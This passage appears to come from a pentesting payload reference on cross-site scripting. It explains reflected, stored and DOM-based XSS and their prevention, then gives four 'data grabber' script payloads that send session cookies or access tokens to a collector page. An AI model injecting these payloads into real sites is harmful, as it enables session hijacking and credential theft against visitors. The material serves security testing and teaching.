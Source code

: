 Cross-Site Scripting (XSS) is a type of computer security vulnerability typically found in web applications. XSS allows attackers to inject malicious code into a website, which is then executed in the browser of anyone who visits the site. This can allow attackers to steal sensitive information, such as user login credentials, or to perform other malicious actions.

There are 3 main types of XSS attacks:

- **Reflected XSS**: In a reflected XSS attack, the malicious code is embedded in a link that is sent to the victim. When the victim clicks on the link, the code is executed in their browser. For example, an attacker could create a link that contains malicious JavaScript, and send it to the victim in an email. When the victim clicks on the link, the JavaScript code is executed in their browser, allowing the attacker to perform various actions, such as stealing their login credentials.
    
- **Stored XSS**: In a stored XSS attack, the malicious code is stored on the server, and is executed every time the vulnerable page is accessed. For example, an attacker could inject malicious code into a comment on a blog post. When other users view the blog post, the malicious code is executed in their browsers, allowing the attacker to perform various actions.
    
- **DOM-based XSS**: is a type of XSS attack that occurs when a vulnerable web application modifies the DOM (Document Object Model) in the user's browser. This can happen, for example, when a user input is used to update the page's HTML or JavaScript code in some way. In a DOM-based XSS attack, the malicious code is not sent to the server, but is instead executed directly in the user's browser. This can make it difficult to detect and prevent these types of attacks, because the server does not have any record of the malicious code.
    

To prevent XSS attacks, it is important to properly validate and sanitize user input. This means ensuring that all input meets the necessary criteria, and removing any potentially dangerous characters or code. It is also important to escape special characters in user input before rendering it in the browser, to prevent the browser from interpreting it as code.

## Proof of Concept

[](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md#proof-of-concept)

When exploiting an XSS vulnerability, itâ€™s more effective to demonstrate a complete exploitation scenario that could lead to account takeover or sensitive data exfiltration. Instead of simply reporting an XSS with an alert payload, aim to capture valuable data, such as payment information, personal identifiable information (PII), session cookies, or credentials.

### Data Grabber

[](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md#data-grabber)

Obtains the administrator cookie or sensitive access token, the following payload will send it to a controlled page.

```html
<script>document.location='http://localhost/XSS/grabber.php?c='+document.cookie</script>
<script>document.location='http://localhost/XSS/grabber.php?c='+localStorage.getItem('access_token')</script>
<script>new Image().src="http://localhost/cookie.php?c="+document.cookie;</script>
<script>new Image().src="http://localhost/cookie.php?c="+localStorage.getItem('access_token');</script>
```
